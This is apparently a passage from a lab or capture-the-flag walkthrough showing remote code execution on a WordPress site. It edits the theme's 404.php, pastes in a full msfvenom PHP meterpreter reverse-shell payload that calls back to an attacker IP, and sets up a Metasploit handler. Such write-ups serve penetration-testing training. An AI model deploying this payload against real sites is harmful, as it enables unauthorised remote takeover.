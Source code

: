 Remote Code Execution

More than likely, the referenced Wordpress site is being hosted on this machine. Common wordlist attacks against the web server fail to locate the Wordpress directory. However, since the share name is shenzi, let's try that. If we navigate to http://192.168.65.55/shenzi, we are indeed presented with a Wordpress site.

By default, the Wordpress admin login page is wp-login.php. Navigating there, we find it, enter the credentials and are granted access to the administration portal.

From here, we'll navigate to Appearance -> Theme Editor -> Theme Twenty Twenty to determine the active website theme. If we select a .php page (such as 404.php) we discover that we can directly edit the page's source code.

We can use this ability to execute arbitrary PHP code, including a reverse shell. Let's generate a PHP meterpreter payload with msfvenom.

kali@kali~# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.49.65 lport=443 -f raw
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1113 bytes
/*<?php /**/ error_reporting(0); $ip = '192.168.49.65'; $port = 443; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();

We'll paste the code into the theme editor for the 404.php page, and click Update File.

Before executing the payload, we'll set up our meterpreter exploit/multi/handler module to catch the reverse shell.

kali@kali~# sudo msfconsole

...

msf5 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LHOST 192.168.49.65
LHOST => 192.168.49.65
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.65:443
